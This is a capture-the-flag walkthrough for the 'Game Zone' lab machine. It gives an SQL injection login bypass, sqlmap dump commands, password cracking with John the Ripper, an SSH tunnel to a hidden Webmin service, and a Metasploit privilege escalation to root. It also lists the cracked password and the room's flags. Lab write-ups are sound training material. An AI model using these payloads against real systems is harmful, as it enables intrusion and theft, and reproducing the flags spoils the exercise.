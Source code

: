 # Game Zone

> Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

<br>

### Process:

1. Deploy the vulnerable machine:
	- name of large cartoon avatar = **agent 47**
2. Obtain access via SQLi
	- input for username: `' or 1=1 -- -`
	- page redirected you're redirected to = **portal.php**
3. Using SQLMap:
	- enter search term in "review search" and save POST request in burp
	- use SQLMap: 
		- `sqlmap -r request -p searchitem --technique=B -dbs`
		- `sqlmap -r request -p searchitem --technique=B -D db --tables`
		- `sqlmap -r request -p searchitem --technique=B -D db -T users --dump`
	- hashes password in users table = **ab5db915fc9cea6c78df88106c65000c57f2b52901ca6c0c6218f04122c3efd14**
	- username associated with hashed password = **agent47**
	- other table in database = **post**
4. Cracking a password with JohnTheRipper:
	- use john to crack the password: `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256`
	- de-hashed password = **videogamer124**
	- SSH into machine: `ssh agent47@10.10.243.124` -> [enter password]
	- user flag = **649ac17b1480ac13ef1e4fa579dac95c**
5. Exposing services with reverse SSH tunnels:
	- run `ss -tulpn` to see information about socket connections running
	- setup an SSH tunnel on attack machine to access service service blocked by firewall
		- `ssh -L 10000:localhost:10000 agent47@10.10.243.124`
	- go to service via web browser (`localhost:10000`) and login to CMS with agent47 credentials
	- CMS name = **webmin**
	- CMS version = **1.580**
6. Privilege escalation with Metasploit:
	- find Metasploit exploit for CMS version running:
		- `msfconsole` -> `search webmin 1.580` -> `use 0` -> configure module -> `run`
		- need to set `RHOST` to 127.0.0.1 and `SSL` to false
	- stablise shell: `bash -i` -> `python -c 'import pty;pty.spawn("/bin/sh")'`
	- read root flag:
		- `cat /root/root.txt`
		- root flag = **a4b945830144bd71908d12d902adeee**
	
